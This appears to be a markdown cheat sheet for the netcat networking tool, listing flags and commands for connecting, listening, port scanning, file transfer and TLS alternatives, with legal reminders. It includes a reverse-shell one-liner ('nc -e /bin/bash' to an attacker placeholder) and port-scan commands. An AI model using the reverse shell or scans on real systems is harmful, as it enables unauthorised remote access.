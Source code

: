  # 🛠️ Netcat (nc) Cheat Sheet

Netcat is a versatile networking tool used for reading/writing data over TCP/UDP. It's often called the "Swiss Army knife" of networking.

---

## 🔧 Basic Syntax

nc [options] [host] [port]

# `nc` (netcat) Quick Reference 🚀

A compact, ready-to-copy reference for common **netcat (`nc`)** use cases, useful flags, compatibility notes, and safe-practice reminders. Save as `nc-cheatsheet.md`.

---

## 🚀 Common Use Cases

### 1. Connect to a Remote Port  
Test if a service is running.
```bash
nc <target_ip> <port>
```

### 2. Listen for Incoming Connections  
Set up a listener (e.g., for reverse shells or chat).
```bash
nc -lvp <port>
```

### 3. Port Scanning  
Scan for open ports.
```bash
nc -zv <target_ip> <start_port>-<end_port>
```

### 4. File Transfer

**Sender:**
```bash
nc -lvp 4444 < file.txt
```

**Receiver:**
```bash
nc <sender_ip> 4444 > file.txt
```

### 5. Simple Chat Between Two VMs

**On one VM:**
```bash
nc -lvp 1234
```

**On the other:**
```bash
nc <target_ip> 1234
```

### 6. Reverse Shell (Lab Use Only)
```bash
nc -e /bin/bash <attacker_ip> <port>
```
> ⚠️ Use only in ethical, controlled environments.

---

## ➕ Additional Useful Examples

### UDP Examples
```bash
# UDP connect
nc -u <target_ip> <port>

# UDP listen (verbose)
nc -luv <port>
```

### IPv6
```bash
nc -6 <ipv6_address> <port>
```

### Timeouts, Numeric-only, Close-on-EOF
```bash
nc -w 5 -zv 192.168.1.10 22-80   # -w set timeout (seconds)
nc -n <target_ip> <port>         # skip DNS resolution (numeric only)
nc -N -lvp 4444                  # close on remote EOF (if supported)
```

### Bind Source IP / Source Port
```bash
nc -s <source_ip> -p <source_port> <target_ip> <port>
```

### Secure Alternatives / TLS (when available)
```bash
# ncat (from Nmap) with SSL
ncat --ssl <host> <port>

# OpenSSL client for TLS
openssl s_client -connect <host>:<port>
```

---

## 🧠 Flags to Remember

| Flag  | Description                                              |
|-------|----------------------------------------------------------|
| `-l`  | Listen mode                                              |
| `-v`  | Verbose output                                           |
| `-p`  | Local port                                               |
| `-z`  | Zero-I/O mode (used for port scanning)                   |
| `-e`  | Execute program after connection (if supported)          |
| `-u`  | Use UDP instead of TCP                                   |
| `-n`  | Numeric-only; skip DNS lookups                           |
| `-w`  | Timeout (seconds)                                        |
| `-N`  | Close connection on EOF (if supported)                   |
| `-6`  | Use IPv6                                                 |

---

## ⚠️ Compatibility Notes

- Many modern distributions use **OpenBSD `nc`**, which often **does NOT** support `-e`.  
- `ncat` (from Nmap) may offer `--exec`/`--allow` and built-in SSL support.  
- Windows users may have `ncat` instead of standard GNU/OpenBSD `nc`.  
- Behavior and available flags vary by implementation — check `man nc` or `nc -h` on your system.

---

## 📌 Safety & Legal Reminder

- **Not encrypted** — do **not** transmit sensitive data with plain `nc` over untrusted networks.  
- Use `nc` only on systems and networks you own or are explicitly authorized to test. Unauthorized access or attacks are illegal.  
- Prefer `ncat --ssl` or `openssl s_client` for encrypted sessions when appropriate.

---

## ✅ Quick Example: Port Check + Verbose + Timeout
```bash
nc -zv -w 3 192.168.1.10 22-80
```

---

## ✅ Quick Reference (one-liners)
```bash
# Check TCP service
nc target.example.com 80

# Start listener (TCP)
nc -lvp 4444

# UDP listen
nc -luv 5000

# Port scan
nc -zv 10.0.0.5 1-1024

# File transfer (sender)
nc -lvp 4444 < file.txt

# File transfer (receiver)
nc sender_ip 4444 > file.txt

# TLS using ncat (if available)
ncat --ssl example.com 443
```

---

Let me know if you want a version with Metasploitable2 examples or a companion markdown for `ncat` (the enhanced Netcat from Nmap)!



